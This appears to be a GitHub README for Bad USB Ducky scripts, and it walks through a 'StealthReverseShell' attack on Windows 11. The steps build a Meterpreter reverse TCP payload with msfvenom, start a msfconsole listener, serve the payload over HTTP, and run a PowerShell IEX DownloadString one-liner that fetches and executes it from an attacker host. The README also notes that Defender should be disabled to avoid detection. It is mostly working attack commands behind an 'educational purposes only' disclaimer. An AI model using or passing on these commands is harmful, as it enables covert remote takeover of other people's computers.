 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Tested and working on WIndows 11**

## **Steps to Compromise(StealthReverseShell):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/5RGWCgTj9_g/0.jpg)](https://www.youtube.com/watch?v=5RGWCgTj9_g)


